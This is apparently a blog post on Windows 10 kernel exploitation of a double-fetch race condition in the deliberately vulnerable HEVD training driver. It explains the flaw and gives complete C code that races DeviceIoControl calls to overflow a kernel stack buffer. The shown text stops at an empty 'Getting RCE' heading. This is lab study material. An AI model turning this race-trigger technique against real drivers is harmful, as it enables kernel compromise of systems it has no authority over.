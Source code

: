 ```yaml
---
title: Windows 10 x64 Kernel Exploitation - Time-of-Check Time-of-Use (TOCTOU) Race Condition using HEVD
---
```


## Looking at the Vulnerability

If we look at the `TriggerDoubleFetch` function within the HEVD driver with Binary Ninja, we can see its a stack buffer overflow like the first blog post, except this time with a check added to ensure the buffer passed from userland is <= 0x800. 

![Disassembly in pseudo C](/assets/img/2025-02-06/TOCTOU.png)

However, between the Time-of-check (TOC) and Time-of-use (TOU), the `UserDoubleFetch->Size` value could change, which makes the code vulnerbale to a TOCTOU race condition.

## Trigging the TOCTOU Race

I thought this would be difficult since the TOCTOU is only a couple assembly instructions, which would execute within a few nanoseconds. But it turns out its not too bad, you just need, at a minimal, two threads, one consistantly calling `DeviceIoControl` with a small buffer size that passes the check, and one thats switching the buffer size to a bigger value. The example below uses 5 threads doing each, but I got it working with `NUM_THREADS` set to `1`. 

Some people do fancy stuff like lock the threads to different CPU cores, or change process priority, but I didn't need this, and didn't want to since the code needs to run as a low privileged user and these APIs _should_ require privileges like `SeIncreaseBasePriorityPrivilege`.

```c
#include <Windows.h>

#include <stdio.h>
#include <string.h>

typedef signed char i8;
typedef short       i16;
typedef int         i32;
typedef long long   i64;

typedef unsigned char      u8;
typedef unsigned short     u16;
typedef unsigned int       u32;
typedef unsigned long long u64;

typedef struct _DOUBLE_FETCH {
    PVOID  Buffer;
    SIZE_T Size;
} DOUBLE_FETCH, *PDOUBLE_FETCH;

typedef struct _IRP_ARGS {
    HANDLE        hHEVD;
    DOUBLE_FETCH  pDoubleFetch;
} IRP_ARGS, *PIRP_ARGS;

#define ArraySize(x) (sizeof x / sizeof x[0])
#define IOCTL(Function) CTL_CODE (FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_DOUBLE_FETCH IOCTL(0x80D)

#define NUM_THREADS 5
#define BUFFER_SIZE 2500

DWORD WINAPI DeviceIoControlThread(LPVOID lpParameters) {

    PIRP_ARGS pIRPArgs = (PIRP_ARGS)lpParameters;

    while (1) {
        pIRPArgs->pDoubleFetch.Size = 0x10;

        DWORD dwBytesReturned = 0;
        DeviceIoControl(
            pIRPArgs->hHEVD,
            HEVD_IOCTL_DOUBLE_FETCH,
            &pIRPArgs->pDoubleFetch,
            sizeof(DOUBLE_FETCH),
            NULL,
            0x00,
            &dwBytesReturned,
            NULL);

        Sleep(1);
    }

    return 0;
}

DWORD WINAPI SizeChaingingThread(LPVOID lpParameters) {

    PIRP_ARGS pIRPArgs = (PIRP_ARGS)lpParameters;

    while (1) {
        pIRPArgs->pDoubleFetch.Size = BUFFER_SIZE;
        Sleep(1);
    }

    return 0;
}

int main(void) {

    HANDLE hHEVD = CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);


    if (!hHEVD) ExitProcess(1);

    PVOID buffer = VirtualAlloc(NULL, BUFFER_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!buffer) ExitProcess(1);

    memset(buffer, 'A', BUFFER_SIZE);

    IRP_ARGS pIRPArgs = {
        .hHEVD = hHEVD,
        .pDoubleFetch.Buffer = buffer,
        .pDoubleFetch.Size = 0,
    };

    HANDLE hThreadWork[NUM_THREADS] = { 0 };
    HANDLE hThreadRace[NUM_THREADS] = { 0 };
    
    for (u64 i = 0; i < NUM_THREADS; i++) {
        hThreadWork[i] = CreateThread(NULL, 0, DeviceIoControlThread, &pIRPArgs, 0, NULL);
        hThreadRace[i] = CreateThread(NULL, 0, SizeChaingingThread,   &pIRPArgs, 0, NULL);
    }

    Sleep(30000);

    for (u64 i = 0; i < NUM_THREADS; i++) {
        if (hThreadWork[i] != NULL) {
            TerminateThread(hThreadWork[i], 0);
            CloseHandle(hThreadWork[i]);
        }
        if (hThreadRace[i] != NULL) {
            TerminateThread(hThreadRace[i], 0);
            CloseHandle(hThreadRace[i]);
        }
    }

    return 0;
}
```

![Disassembly in pseudo C](/assets/img/2025-02-06/overflow.PNG)

## Getting RCE

